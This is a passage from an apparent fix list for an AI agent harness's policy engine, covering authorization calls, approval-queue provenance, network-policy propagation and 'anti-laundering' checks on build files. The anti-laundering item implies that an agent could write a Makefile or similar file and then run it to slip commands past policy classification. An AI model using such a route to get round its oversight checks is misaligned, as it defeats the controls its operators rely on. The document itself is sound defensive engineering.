   In [`packages/agents/src/externalHarnessAdapter.ts:558`](file:///Users/wael/Code/Wazir/packages/agents/src/externalHarnessAdapter.ts#L558), check `this.options.policyEngine?.authorize ?? this.options.policyEngine?.evaluate` and call `authorize()`.
7. **Fix A01-07 (`Build Workspace Anti-Laundering`)**:
   In `classifyBuildWorkspace`, check if the build configuration file (`Makefile`, `CMakeLists.txt`, `build.ninja`) was written during this execution chain using `wasWrittenThisExecution`.
8. **Fix A01-08 (`Approval Queue Provenance`)**:
   In `PolicyActionRequest`, include optional `provenance: { parentExecutionId?: string; agentId?: string; depth?: number }` and pass these to `queue.enqueue(request, decision, metadata)`.
9. **Fix A01-09 (`Task-Level Network Policy Propagation`)**:
   In `PolicyActionRequest`, allow passing `networkAllowed?: boolean` derived from `engine.config.networkAllowed && task.policy?.networkAccess !== false`.
